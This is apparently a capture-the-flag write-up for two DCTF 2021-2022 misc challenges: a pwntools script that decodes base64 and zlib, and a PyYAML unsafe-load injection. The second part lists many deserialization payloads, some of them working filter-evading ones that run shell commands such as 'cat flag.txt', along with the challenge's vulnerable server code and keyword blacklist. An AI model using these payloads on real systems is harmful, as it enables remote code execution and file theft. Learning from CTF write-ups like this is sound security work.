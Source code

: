 # DCTF 2021-2022 – Misc Challenges

## Challenge 1: Zebra-Lib (Easy)

We are given an instance to connect to and we are given the prompt

![zlib 1](./images/1.png)

Entering this into CyberChef showed that it was base64 encoded and compressed with zlib. There was a timeout and many many proofs to compute so I made a script.

### Solution

```
from pwn import *
import zlib
import base64

def decode( b64string ):
    decoded_data = base64.urlsafe_b64decode( b64string )
    return zlib.decompress( decoded_data)

host = "34.141.93.151"
port= 31610

p = remote(host, port)

while True:
    print(p.recvline())
    line = p.recvline()
    print(line)

    try:
        line = line.strip().decode('utf-8')
        print(p.recvline())
        answer = decode(line)
        print(answer.decode('utf-8'))
        p.send(answer + b'\n')
    except:
        print(p.recvline())
        print(p.recvline())
        print(p.recvline())

```

### Flag

After 500 proofs computed, we get the flag
![zlib](images/zlib.png)

## Raw - Proto (Medium)

We are given another instance to connect to and upon entering some text, we are given a hint that it indicates that `yaml.load()` is loading in unsanitized input.

### Solution

This was my first time trying anything yaml related, so I just hunted around the internet for yaml injections from PayloadsAllTheThings and Hacktricks etc.

I built out a few payloads and tried to see what was available, there was a blacklist for the word open

```
!!python/object/apply subprocess.check_output ["ls"]

!!python/object/apply:os.system ["ls"]

python/object/new:str
    args: []
    state: !!python/tuple
        "ls"
        !!python/object/new:staticmethod
        args: [0]
        state:
            update: !!python/name:exec


print(url_for.__globals__)
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print()"]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "().__class__.__base__.__subclasses__()"]]]


!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "eval{'flag' : eval('chr(105) + chr(110) + chr(116) + chr(40) + chr(111) + chr(112) + chr(101) + chr(110) + chr(40) + chr(39) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116) + chr(39) + chr(44) + chr(32) + chr(39) + chr(114) + chr(39) + chr(41) + chr(46) + chr(114) + chr(101) + chr(97) + chr(100) + chr(40) + chr(41) + chr(41)')}"]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(chr(105) + chr(110) + chr(116) + chr(40) + chr(111) + chr(112) + chr(101) + chr(110) + chr(40) + chr(39) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116) + chr(39) + chr(44) + chr(32) + chr(39) + chr(114) + chr(39) + chr(41) + chr(46) + chr(114) + chr(101) + chr(97) + chr(100) + chr(40) + chr(41) + chr(41))"]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(base64.b64decode('aGVsbG8='))"]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "{'flag': print(open('flag.txt', 'r'))}"]]]


!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "{'flag': print([].__class__.__base__.__subclasses__())}"]]]

#PAYLOADS THAT WORK

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(globals()['__builtins__']['op'+'en']('flag.txt','r').read())"]]]


!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(self.__class__.__mro__[10].__subclasses__()[133].__init__.__globals__['system']('cat flag.txt'))" ]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(self.__class__.__mro__[10].__subclasses__()[133].__init__.__globals__['system']('cat server.py'))" ]]]
```

After tinkering around a bit, I realised that there were some protections. The `os` module was removed, the `open` text filtered, `hex` was filtered, `base64` was filtered.

My payload was simply to concatenate `"op" + "en"` and get around the filter but there were some other brilliant ways to get around it.

List of Working Payloads:

```
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(globals()['__builtins__']['op'+'en']('flag.txt','r').read())"]]]


!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(self.__class__.__mro__[10].__subclasses__()[133].__init__.__globals__['system']('cat flag.txt'))" ]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , ["print(exec('''sys.modules['os.path'].os.system('cat flag.txt')'''))"]]]
```

Examining the filters around showed that they had this `__init__.py` file:

```
def system(lol=None):
  print("Try Harder!")import sys,yaml
import os
del os
sys.modules['os']=None
x = ''.join(sys.stdin.readline())
if 'open' in x:
    print("Try Harder! I bet you can.. lol.")
    sys.exit(0)
if '\\x' in x:
    print("Try Harder! Hex in python? Is that all you can think off?")
    sys.exit(0)
if 'base64' in x:
    print("Try Harder! base64 in python? Is that all you can think off?")
    sys.exit(0)
print(yaml.load(x))
```
